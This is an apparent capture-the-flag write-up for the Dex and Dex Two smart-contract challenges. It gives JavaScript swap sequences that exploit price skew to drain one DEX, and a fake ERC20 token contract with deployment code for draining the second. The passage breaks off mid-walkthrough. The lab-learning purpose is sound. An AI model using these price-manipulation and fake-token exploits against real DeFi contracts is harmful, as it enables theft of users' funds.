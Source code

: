```javascript
await token1.approve(dex.address, 10);
tx = await dex.swap(token1.address, token2.address, 10);
```
and then it clicked!! there is no invariant on `getSwapPrice`, everytime you perform swaps the prices will skew. Doing this few times get you the desired result

```javascript
await token1.approve(dex.address, 10)
tx = await dex.swap(token1.address, token2.address, 10);

await token2.approve(dex.address, 20)
tx = await dex.swap(token2.address, token1.address, 20);

await token1.approve(dex.address, 24)
tx = await dex.swap(token1.address, token2.address, 24);

await token2.approve(dex.address, 30)
tx = await dex.swap(token2.address, token1.address, 30);

await token1.approve(dex.address, 41)
tx = await dex.swap(token1.address, token2.address, 41);


await token2.approve(dex.address, 45)
tx = await dex.swap(token2.address, token1.address, 45);
```

## dex2

The goal is here is to drain both the tokens. The difference between dex and dex2 is that there is no check for Invalid Tokens. This makes life easier.

To clear this level we can deploy new token and manipulate prices to drain the actual tokens. 

```solidity
contract SwappableTokenTwoHack is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function mint(uint256 amount) public {
     _mint(msg.sender, amount);
  }
}
```

- deploy  `SwappableTokenTwoHack` and transfer 10 to dex and 10 to player initially

```javascript
let SwappableTokenTwoHack = await hre.ethers.getContractFactory("SwappableTokenTwoHack");

SwappableToken = SwappableToken.connect(player)
SwappableTokenTwoHack = SwappableTokenTwoHack.connect(player)
let dummyToken = await SwappableTokenTwoHack.deploy(dex.address, "DM", "DM", 20);
await dummyToken.deployed();

dex = dex.connect(player)
token1 = token1.connect(player)
token2 = token2.connect(player)
dummyToken = dummyToken.connect(player)

tx = await dummyToken.transfer(dex.address, 10)
await tx.wait()
```